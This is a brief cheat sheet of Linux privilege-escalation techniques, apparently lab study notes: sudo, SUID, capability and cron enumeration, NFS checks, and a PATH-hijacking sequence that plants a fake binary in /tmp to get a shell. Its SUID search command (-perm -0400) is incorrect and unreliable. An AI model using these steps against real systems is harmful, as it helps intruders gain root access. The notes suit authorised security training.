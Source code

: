 # Linux Privilege Escalation

#### Kernel Exploit

* **Search for Exploits:**
  * Research and find kernel exploits suitable for the target system.
  * Execute the exploit to escalate privileges.

#### Sudo Rights

* **Check Sudo Rights:**
  * Use `sudo -l` to display programs with sudo rights.

#### SUID (Set User ID)

* **Find SUID Files:**
  *   Use the following command to list files with SUID or SGID bits set:

      ```bash
      find / -type f -perm -0400 -ls 2>/dev/null
      ```

#### CAPA (Capabilities)

* **List Applications with Capabilities:**
  *   Use the following command to list all applications with capabilities set:

      ```bash
      getcap -r / 2>/dev/null
      ```

#### Cron Jobs

* **View Cron Jobs:**
  *   Display the cron jobs configured on the system:

      ```bash
      cat /etc/crontab
      ```

#### PATH

* **Show System's PATH:**
  *   Display the system's PATH variable:

      ```bash
      echo $PATH
      ```
* **Writable Directories:**
  *   Identify writable directories:

      ```bash
      find / -writable 2>/dev/null
      ```
* **PATH Manipulation:**
  *   Temporarily modify PATH for privilege escalation:

      ```bash
      export PATH=/tmp:$PATH
      cd /tmp
      echo "/bin/bash" > thm
      cd /home/murdoch
      ./test
      ```

#### NFS (Network File System)

* **Show Shared Folders:**
  *   Use `showmount` to display shared folders on an NFS server:

      ```bash
      showmount -e <ip>
      ```
* **NFS Configuration:**
  *   View the configuration of shared folders:

      ```bash
      cat /etc/exports
      ```
